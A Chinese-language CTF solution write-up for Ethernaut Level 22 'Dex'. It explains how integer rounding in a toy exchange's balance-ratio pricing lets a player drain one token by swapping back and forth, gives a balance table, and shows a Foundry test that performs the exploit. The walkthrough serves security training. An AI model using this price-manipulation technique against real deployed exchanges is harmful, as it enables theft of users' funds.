


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 22 - Dex</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 22 - Dex](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)
- [参考](#参考)

## 目标
玩家账户上的 token1 和 token2 都各有 10 个 token，而题目账户上有 100 个，目的是把题目账户上的某个 token 清零


## 漏洞

这是一个简单版本的 Uniswap V2。dex 的基本原理是将一对代币加入流动池以提供流动性, 这样就可以实现两种代币之间的交换, 交换的价格是根据流动池内代币的比例动态计算的。

所以最核心的函数是swap(address from, address to, uint amount)，它可以进行token1，token2交换，价格就是通过`getSwapPrice()`方法计算出来的，也就是两个 token 余额的比率。即：换出 token2 的数量 = (换入 token1 的数量 * token2 在 Dex 的余额) / token1 在 Dex 的余额。


```javascript
function getSwapPrice(
        address from,
        address to,
        uint amount
    ) public view returns (uint) {
        return ((amount * IERC20(to).balanceOf(address(this))) /
            IERC20(from).balanceOf(address(this)));
    }
```

然而, `getSwapPrice()`中使用了除法，除法可能产生小数，小数转整型不可避免地存在精度缺失问题；整数除法都向下舍入到最接近的整数，例如，7/2 等于3，而不是3.5。这样导致了在交换过程中我们可以获取更多代币，从而达到清空题目合约拥有代币数的目的。

下面我实际操作一下，我们将把所有token1交换为token2。然后将我们的所有token2交换为token1，再将我们的所有token1交换为token2，依此类推。

以下是价格历史和余额的变化情况。最初，
      DEX       |      player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10               
  
交换全部之后token1：
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20                

请注意，此时汇率已调整。现在，兑换 20 token2应该得到20 * 110 / 90 = 24.44..。但由于除法结果为整数，我们得到 24 token2。价格再次调整。再次交换。
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    

当我们在 token1 和 token2 之间来回兑换时, 可以看到每次能拿到的代币数量其实是在变多的, 这样多倒几次最终就能将 dex 池内某一类型的代币搬空
继续交换我们将得到：
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   

现在，在上面最后一次交换中，我们得到了 65 token2，这足以消耗掉全部 110 token1！通过简单的计算，只需要 45token2就可以获得全部 110 token1。  
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
  0       90    |   110     20

## 解答

攻击合约实现

```javascript
    function testattacker() public {
        vm.startPrank(player1, player1);

        token1.approve(address(instance), 2 ** 256 - 1);
        token2.approve(address(instance), 2 ** 256 - 1);

        swapMax(token1, token2);
        swapMax(token2, token1);
        swapMax(token1, token2);
        swapMax(token2, token1);
        swapMax(token1, token2);

        instance.swap(address(token2), address(token1), 45);

        assertEq(
            token1.balanceOf(address(instance)) == 0 ||
                token2.balanceOf(address(instance)) == 0,
            true
        );

        vm.stopPrank();
    }

    function swapMax(ERC20 tokenIn, ERC20 tokenOut) public {
        instance.swap(
            address(tokenIn),
            address(tokenOut),
            tokenIn.balanceOf(player1)
        );
    }
```

攻击流程:

1. 部署 Attack 合约;
2. Attack 授权 Dex 使用token;
3. 将所有 token1 和 token2 发送给 Attack 合约;
4. 交替交换 token1 和token2 ，直到一种变为0;

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DexTest  -vvvvv
```

## 要点

- Solidity中使用除法需要格外小心.
- Foundry & Echidna的Fuzzer是不错的测试方法.
- 使用去中心化的预言机，这种方法更安全性。(例如 Chainlink and UniswapV3 TWAP )

## 参考

- UniswapV2Pair: https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L182

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
